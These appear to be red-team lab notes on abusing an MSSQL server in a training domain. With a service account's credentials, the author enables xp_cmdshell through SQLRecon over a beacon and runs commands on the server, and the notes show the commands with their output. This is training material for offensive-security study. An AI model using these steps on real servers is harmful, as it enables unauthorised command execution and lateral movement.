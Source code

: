 ```powershell
sql-2.dev.cyberbotic.io sql-2.dev.cyberbotic.io,1433 No sysadmin privileges.
```
The same will fail if you try manually in Heidi or mssqlclient, because xp_cmdshell is disabled.
executed on `WSL` `SQL`
```powershell
SQL> EXEC xp_cmdshell 'whoami';
[-] ERROR(SQL-2): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server.
```

# Continuing with HeidiSQL

ensure `socks 1080` is setup on `beacon`, `proxifier` can be utilized as well

in `powershell` on `ATTACKER DESKTOP` utilize command below to connect to `SQL-2` as `mssql_Svc`

```powershell
PS C:\Users\Attacker> runas /netonly /user:DEV\mssql_svc C:\Tools\HeidiSQL\heidisql.exe
Enter the password for DEV\mssql_svc:Cyberb0tic
Attempting to start C:\Tools\HeidiSQL\heidisql.exe as user "DEV\mssql_svc" ...
PS C:\Users\Attacker>
```
![[Pasted image 20231213183901.png]]
click `NEW` in the bottom left
change `highlighted` settings
where:
`network type` = type of database
`hostname` = hostname of sql server
`port` = 1433
`library` = SQLOLEDB
![[Pasted image 20231213184232.png]]
kept getting `error` with `HEIDISQL` moving onto using `SQLRECON`

# SQLRecon

enabling `xp_cmdshell`
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
[*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
[+] host called home, sent: 307598 bytes
[+] received output:
[*] Enabling xp_cmdshell as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433
[+] SUCCESS: Enabled xp_cmdshell on sql-2.dev.cyberbotic.io,1433.
name | value | 
---------------
xp_cmdshell | 1 |

```
executing `ipconfig`
```powershell
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
[*] Tasked beacon to run .NET program: SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
[+] host called home, sent: 307616 bytes
[+] received output:
[*] Executing 'ipconfig' as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433.
output | 
---------
 | 
```